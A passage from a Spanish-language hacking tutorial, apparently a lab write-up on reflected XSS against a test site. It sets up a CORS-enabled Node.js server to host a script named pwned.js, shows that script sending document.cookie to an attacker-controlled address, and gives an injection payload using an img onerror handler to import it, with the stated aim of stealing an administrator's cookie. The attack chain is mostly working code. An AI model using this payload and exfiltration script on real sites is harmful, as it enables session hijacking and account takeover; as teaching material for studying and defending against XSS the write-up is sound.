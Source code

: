 Tras indagar bastante sobre este error nos daremos cuenta que el servidor de python (`python3 -m http.server 80`) no nos sirve. Por lo que alternativamente nos montaremos un servidor de **nodejs**, el cual nos permitirá establecer dicha cabecera que habilitará el acceso a recursos compartidos.

> Destacar que alternativamente también podemos montarnos un servidor de python personalizado gracias a la librería `http.server`.

En primer lugar, debemos de tener instalado **nodejs** y **npm**, tras ello instalaremos con **npm** los siguiente paquetes.

```bash
npm install express
npm install cors
```

Una vez tengamos instalados los paquetes **express** y **corss** nos montaremos un servidor de **nodejs** donde serviremos nuestro archivo **[pwned.js](<../../Introducción al Hacking/OWASP TOP 10 y vulnerabilidades web/XSS (Cross-Site Scripting)/Scripts/cookie.js.md>)**.

```js
const express = require('express');
const cors = require('cors');
const path = require('path');
const app = express();

// Habilitamos el cors, es decir establecemos la siguiente cabecera: Access-Control-Allow-Origin: *
app.use(cors());

app.get('/pwned.js', (req, res) => {
  // Muy importante establecer la cabecera Content-Type ya que si no nos interpretará el código JavaScript.
  res.setHeader('Content-Type', 'application/javascript');
  res.sendFile(path.join(__dirname, 'pwned.js'));
});

app.listen(80, () => {
  console.log('Servidor CORS-enabled escuchando en el puerto 80');
});
```

Modificaremos el archivo **[pwned.js](<../../Introducción al Hacking/OWASP TOP 10 y vulnerabilidades web/XSS (Cross-Site Scripting)/Scripts/cookie.js.md>)** con el siguiente contenido, básicamente hemos cambiado el puerto donde recibiremos la **cookie**.

```js
var request = new XMLHttpRequest();
request.open('GET', 'http://172.17.0.1:8081/?cookie=' + document.cookie);
request.send();
```

Volveremos a realizar la misma petición de antes.

```http
trr0rlabs.bbl/form.php/"><img src/onerror=import("http:172.17.0.1/pwned.js")>
```

Tal y como se evidencia somos capaces de ver nuestra propia **cookie** por lo que ya tenemos un link a través del cual podemos robarle la **cookie** al **admin**.
